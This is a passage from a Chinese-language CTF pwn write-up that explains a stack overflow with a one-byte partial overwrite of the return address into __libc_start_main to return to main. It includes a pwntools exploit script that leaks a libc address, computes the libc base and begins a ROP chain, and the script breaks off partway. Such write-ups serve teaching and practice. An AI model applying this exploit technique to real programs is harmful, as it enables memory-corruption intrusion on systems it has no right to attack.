 **这里的call rax , 就是进入 main函数 ！！！**

**！！！关键点二：我们要用的指令是 29D89 这个指令，这个指令是先配置好 rax ，然后再 call rax。只有从 29D89 这个指令开始，我们才能正确的返回到main函数。**

**这里有一个隐含的知识点：call 一个函数  。函数执行完后，栈空间的位置是和执行前一模一样的(这里我说的是位置，栈里的数据可能会变化)**

**我们执行 29D89这个指令 ```.text:0000000000029D89                 mov     rax, [rsp+98h+var_90]``` 能够再次中正确调整rax为main函数的地址，最大的功臣就是我们上面所说的那个 '栈位置不变性质'**

所以exp如下：

<div align=center><img src="../images/2024/09/19/t_pwn26.png" alt="pwn" border="0" width="70%" height="80%"></div>

```
from pwn import *

context(arch='amd64',log_level='debug',os='linux')

#io=remote("challenge.basectf.fun",37368)
io=process('./vuln')
elf=ELF('./vuln')
libc= ELF('./libc.so.6')
#gdb.attach(io,'b main')
libc_start_main_offset=0x29d89 #libc_start_main函数的偏移地址，等下告诉你们怎么求
payload=b'a'*(0x100+8) + b"\x89" # \x89就是指令29D89的末2位，刚好修改返回libc_start_main最低位

io.send(payload) # send()  这记得要用send，sendline会多发送一个\n
io.recvuntil(b'a'*0x108) #过滤多余的a
back_main=u64(io.recv(6).ljust(8,b'\x00')) # %s泄露libc_start_main(+??)的真实地址
print('main: {}'.format(hex(back_main)))

libc_base = back_main - libc_start_main_offset # 求出libc基址
print('libc_base: {}'.format(hex(libc_base)))

pop_rdi_libc = 0x2a3e5 #libc中的pop rdi; ret
```